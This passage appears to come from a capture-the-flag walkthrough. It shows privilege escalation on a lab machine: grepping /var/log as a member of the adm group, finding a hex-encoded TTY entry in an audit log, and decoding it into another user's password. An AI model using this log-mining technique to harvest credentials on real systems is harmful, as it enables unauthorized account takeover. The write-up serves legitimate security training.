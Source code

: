 This user was the only user part of the `adm` group.

```
cry0l1t3@academy:~$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

This means we have permissions to read logs within the `/var/log` directory. Within that directory, I used `grep` to check for words like `password` and `bash`, as there might be logs where the user executed commands.

```
cry0l1t3@academy:/var/log$ grep -iRl 'bash' 2> /dev/null
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-00000000002761c9-0005bae7fad221d9.journal
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-0000000000253e21-0005af2e7688dcc2.journal
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-0000000000271e59-0005b22b372f5398.journal
audit/audit.log.3
audit/audit.log.1
cloud-init.log
bootstrap.log
apache2/access.log
apache2/error.log
```

The `audit` directory is not an original Linux log file. Within the `audit.log` file, I found that the user `mrb3n` was executing commands:

{% code overflow="wrap" %}
```
type=USER_AUTH msg=audit(1612880436.217:92): pid=964 uid=0 auid=4294967295 ses=4294967295 msg='op=PAM:authentication grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/login" hostname=academy addr=? terminal=/dev/tty1 res=success'
type=CRED_REFR msg=audit(1612880564.412:120): pid=1353 uid=0 auid=1001 ses=1 msg='op=PAM:setcred grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/sudo" hostname=academy addr=? terminal=/dev/tty1 res=success
```
{% endcode %}

There are also some commands that are encoded in hex for some reason. While looking at `audit.log.3`, I found this command:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

When decoded, this gives a password:

```
$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

We can then `su` to `mrb3n`.
